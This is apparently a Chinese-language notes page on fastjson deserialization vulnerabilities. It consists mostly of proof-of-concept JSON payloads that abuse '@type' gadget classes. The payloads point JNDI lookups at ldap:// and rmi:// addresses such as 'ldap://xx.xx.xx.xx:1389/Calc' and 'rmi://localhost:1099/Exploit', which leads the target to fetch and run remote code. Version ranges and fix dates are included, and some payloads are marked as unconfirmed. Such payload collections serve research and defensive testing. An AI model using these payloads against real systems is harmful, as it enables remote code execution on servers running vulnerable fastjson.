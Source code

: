 ```json
# 以下poc未复现成功

{"v66_error":{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://0.0.0.0"}}

{"v66_error":{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://0.0.0.0"}}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://xx.xx.xx.xx:1389/Calc"}}
```

官方于2020/03/19发布1.2.67版本修复该绕过方式

---

1.2.67 版本及其之后的版本传递 JSON 格式 poc 不在需要参数名, poc 格式发生变化

---

## fastjson < 1.2.66 版本拒绝服务漏洞

**影响范围**
- 1.2.36 - 1.2.62

**相关文章**
- [fastjson < 1.2.66 版本最新漏洞分析](https://mp.weixin.qq.com/s/RShHui_TJeZM7-frzCfH7Q)

---

## fastjson<=1.2.68

**描述**

利用条件: fastjson<=1.2.68, 且开启 autoType

```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://0.0.0.0"}

{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://0.0.0.0"}
```

官方于 2020/06/01 发布 1.2.69 版本修复该绕过方式

---

## AnterosDBCPConfig

```json
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"rmi://localhost:1099/Exploit\"}
{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"rmi://localhost:1099/Exploit\"}
```

---
